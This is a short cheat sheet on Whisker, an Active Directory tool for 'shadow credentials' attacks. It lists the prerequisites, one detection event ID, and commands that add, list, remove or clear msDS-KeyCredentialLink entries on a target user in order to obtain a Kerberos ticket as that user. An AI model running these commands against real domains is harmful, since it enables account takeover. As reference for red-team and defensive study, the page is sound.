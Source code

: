 ### Source
https://github.com/eladshamir/Whisker  

### Requirements
```
Windows Server 2016 domain controller
digitale certificate for Server Authentication installed on domain controller
```

### Windows Security Log Event IDs
```
Kerberos authentication(4768) TGT requested 
```

### Generate public-private key pair, add credential to the target object and print rubeus asgtgt command
```
Whisker.exe add /target:<user>
```

### List entries of msDS-KeyCredentialLink attribute
```
Whisker.exe list /target:<user>
```

### Remove key credential by a DeviceID GUID
```
Whisker.exe remove /target:<user> /deviceid:<id>
```

### Remove all values from msDS-KeyCredentialLink attribute
```
Whisker.exe clear /target:<user>
```

